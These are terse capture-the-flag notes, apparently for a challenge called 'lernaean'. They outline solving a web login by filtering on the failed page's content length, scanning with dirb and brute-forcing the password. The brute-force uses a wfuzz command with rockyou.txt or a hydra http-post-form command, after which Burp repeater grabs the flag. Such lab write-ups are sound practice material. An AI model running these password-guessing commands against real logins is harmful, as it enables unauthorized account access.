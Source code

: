 # lernaean


#Hit page - invalid password! -> content length 474

#Dirb scan

#wfuzz -hh474 using rockyou.txt -d "password=FUZZ"

or 

#hydra -l admin -P rockyou http-post-form "/:passwrod=^PASS^:Invalid password!" -s 53593

to slow


#intercept on

#send repeater


#grab flag